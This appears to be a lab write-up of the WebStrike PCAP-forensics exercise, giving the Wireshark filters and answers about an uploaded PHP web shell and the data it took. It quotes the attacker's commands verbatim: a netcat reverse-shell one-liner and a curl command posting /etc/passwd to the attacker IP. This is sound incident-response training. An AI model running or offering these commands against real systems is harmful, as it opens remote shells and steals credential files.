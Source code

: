 # WebStrike Lab

## Objective:

Task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### Skills Learned

1. Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Tools Used

- Wireshark
- ipgeolocation.io

## Steps:

1. Navigate to the WebStrike.PCAP file that was captured ---| *Ref 1: WebStrike.PCAP file |.
2. Perform an IPv4 Address Lookup of ---| 117.11.88.124 |. 
3. Identify the User-Agent ---| Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |.
4. Create a filter for Wireshark ---| (ip.src == 117.11.88.124 and http.request.method=="POST") |.
5. Identify any successful uploads ---| "image.jpg.php" uploaded successfully |.
6. Locate the file location of the uploaded file ---| /reviews/uploads/ |.
7. Identify the targeted Port used for infiltration ---| Port 8080 |.
8. Create a filter for Wireshark ---| (tcp.port==8080) && (ip.src==24.49.63.79) |.
9. Identify the commands used for exfiltration ---| "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443" |.
10. Identified the critical information containing sensitive user configuration data.

drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: WebStrike.PCAP file


## Notes:

- Thunar file system interaction
- https://ipgeolocation.io/   for IPv4v Address (117.11.88.124) Lookup
- WebStrike.PCAP
- uese-agent ---- | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
- Filter for wire shark ---- |(ip.src == 117.11.88.124 and http.request.method=="POST") |
- "image.jpg.php" uploaded successfully
- ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")
- Uploaded file found in /reviews/uploads/
- Port 8080 targeted
- Filter for wire shark ---- | (tcp.port==8080) && (ip.src==24.49.63.79) |
- Attacker used "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443/"
- Shows exfiltration of critical information containing sensitive user configuration data.
- 
